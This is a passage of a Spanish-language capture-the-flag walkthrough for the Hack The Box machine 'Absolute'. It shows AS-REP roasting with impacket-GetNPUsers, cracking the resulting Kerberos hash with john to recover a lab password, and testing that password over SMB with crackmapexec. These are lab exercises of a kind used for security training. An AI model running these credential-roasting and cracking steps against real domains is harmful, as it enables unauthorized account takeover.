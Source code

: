 - Ahora que sabemos que los usuario son validos podemos probar un `ASREPRoast Attack`.

```bash
➜  content impacket-GetNPUsers absolute.htb/ -no-pass -usersfile users.txt
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[-] User J.Roberts doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User M.Chaffrey doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$D.Klay@ABSOLUTE.HTB:90b6ffe0ec2f136b9268b7bc5ea29f46$f2f0909c2a88da7f818720581aaf8143b646f285fb93489bf228d37acfb190c7d777ce0b22a5e61a7e9f6b293037e0f90899db4de678920773547c032cbd26dd22f9008e75a75b8ce4902959778bb52344bd76e61bfb406e575105b4d2e62130261f43b535333dddaa1587116edaac1babeb69b3e85f45797513a2f5852b97995127fced566cd2a65d8358fa894c5dae47938dd083c99c21c28055ff83ffa743e66a899ceb26a6fa1edac18796ddb7f26791309cfb6a812e6e0dbbc76ce8abddb9ed9929aa8c351e3db6932389544a85c0cb06c375de560737b51872ed9810f2131fbd785f979d7eb2d0054b
[-] User S.Osvald doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User J.Robinson doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User N.Smith doesn't have UF_DONT_REQUIRE_PREAUTH set
```

- Tenemos el hash de `D.Klay` vamos a crackearlo para ver su contraseña.

```bash
➜  content john -w:/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 512/512 AVX512BW 16x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Darkmoonsky248girl ($krb5asrep$23$D.Klay@ABSOLUTE.HTB)
1g 0:00:00:24 DONE (2024-06-18 13:00) 0.04149g/s 466323p/s 466323c/s 466323C/s DarrenCahppell..Danuelle
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

- Tenemos credenciales.

```bash
➜  content echo "D.Klay:Darkmoonsky248girl" | sudo tee creds.txt
D.Klay:Darkmoonsky248girl
```

- Vamos a sincronizarnos al reloj del dominio.

```bash
➜  content sudo ntpdate -s absolute.htb
```

- Sin embargo las credenciales nos devuelven un `STATUS_ACCOUNT_RESTRICTION` <https://blog.whiteflag.io/blog/protected-users-you-thought-you-were-safe/>.

```bash
➜  content cme smb 10.10.11.181 -u 'D.Klay' -p 'Darkmoonsky248girl'
SMB         10.10.11.181    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.181    445    DC               [-] absolute.htb\D.Klay:Darkmoonsky248girl STATUS_ACCOUNT_RESTRICTION
```
